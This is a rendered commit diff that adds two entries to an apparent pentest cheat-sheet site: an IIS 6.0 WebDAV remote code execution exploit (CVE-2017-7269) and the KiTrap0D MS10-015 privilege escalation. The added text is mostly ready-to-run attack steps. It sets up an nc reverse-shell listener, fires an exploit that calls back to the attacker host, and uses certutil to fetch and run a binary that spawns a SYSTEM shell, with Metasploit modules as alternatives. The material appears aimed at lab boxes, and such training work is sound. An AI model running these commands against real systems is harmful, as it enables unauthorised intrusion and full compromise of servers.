

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from privesc/cve_privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 4982 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 5612 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
privesc: add IIS 6.0 CVE-2017-7269 one-shot warning and KiTrap0D MS10-015 entry
IIS 6.0 Rapid Fail Protection stops the app pool after one crash -- document
the pre-flight check and one-attempt-only constraint for CVE-2017-7269 WebDAV
exploitation. Add KiTrap0D (MS10-015) as the correct NETWORK SERVICE -> SYSTEM
path on Win2003 SP2, noting why Potato variants fail on that platform.

````diff
--- a/privesc/cve_privesc.md
+++ b/privesc/cve_privesc.md
@@ -238,6 +238,72 @@
 
 ---
 
+### IIS 6.0 ScStoragePathFromUrl -- CVE-2017-7269
+
+**Impact:** Unauthenticated RCE via WebDAV PROPFIND buffer overflow. IIS 6.0 / Windows Server 2003 only.
+
+> **One exploit window per box spawn.** IIS 6.0 Rapid Fail Protection can be configured as low
+> as one crash. After CVE-2017-7269 fires and crashes the DAV worker, the app pool enters
+> "stopped" state -- all subsequent PROPFIND requests return 400. Ensure your listener is up and
+> the payload is ready before firing. If the app pool is already stopped, you need a fresh spawn.
+
+```bash
+# Confirm the target: IIS 6.0 + WebDAV enabled
+curl -I http://$IP | grep Server            # Server: Microsoft-IIS/6.0
+nmap --script http-webdav-scan -p 80 $IP    # WebDAV header present?
+davtest -url http://$IP/                    # confirms WebDAV is live
+
+# Pre-flight: is the app pool still running? (400 on OPTIONS/PROPFIND = already stopped)
+curl -s -o /dev/null -w "%{http_code}" -X OPTIONS http://$IP/
+# 200 or 207 = OK to proceed; 400 = app pool already dead, get a fresh spawn
+
+# Set up handler BEFORE firing the exploit
+rlwrap nc -lvnp $LPORT
+
+# Exploit (ScStoragePathFromUrl PROPFIND overflow)
+# https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
+python2 iis6_exploit.py $IP 80 $LHOST $LPORT
+
+# PT ONLY (Metasploit):
+# use exploit/windows/iis/iis_webdav_scstoragepathfromurl
+# set RHOSTS $IP; set LHOST $LHOST; run
+```
+
+> Shell lands as `NT AUTHORITY\NETWORK SERVICE`. Escalate with
+> [KiTrap0D / MS10-015](#kitrap0d----ms10-015-cve-2010-0232) -- the correct LPE on Win2003 SP2.
+> Token impersonation (Potato variants) does not reliably work from NETWORK SERVICE on Win2003 SP2.
+
+---
+
+### KiTrap0D -- MS10-015 (CVE-2010-0232)
+
+**Impact:** Any local user / NETWORK SERVICE -> SYSTEM via Windows kernel #GP fault handler flaw.
+**Affected:** Windows NT 3.5 -- Windows 7, Windows 2003 SP2 (32-bit only; check arch).
+
+> **Use this instead of Potato/churrasco on Win2003 SP2.** WMIC network-targeted calls
+> (`wmic /node:127.0.0.1`) and `ITaskScheduler::SetTargetComputer("\\127.0.0.1")` both fail
+> from `NETWORK SERVICE` on Win2003 SP2 -- the impersonated token is the same NETWORK SERVICE
+> account, not SYSTEM. Token impersonation attacks (churrasco, JuicyPotato, Rotten Potato) do
+> not reliably escalate from NETWORK SERVICE on Win2003. KiTrap0D works where Potatoes don't.
+
+```bash
+# Check: Win2003 SP2 + 32-bit
+systeminfo | findstr /i "os version\|system type"
+# OS Version:  5.2.3790 Service Pack 2 = Win2003 SP2
+# System Type: X86-based PC or x86 Family
+
+# KiTrap0D PoC (compiled x86 binary -- safe to build locally, run on target)
+# https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-015
+# Transfer to target:
+certutil.exe -urlcache -f http://$LHOST:8000/KiTrap0D.exe C:\Windows\Temp\kt.exe
+C:\Windows\Temp\kt.exe    # spawns cmd.exe as SYSTEM
+
+# Alternatively -- Metasploit post module
+# use post/windows/escalate/ms10_015_kitrap0d
+```
+
+---
+
 ## Quick Version Check Script (Linux)
 
 ```bash
````
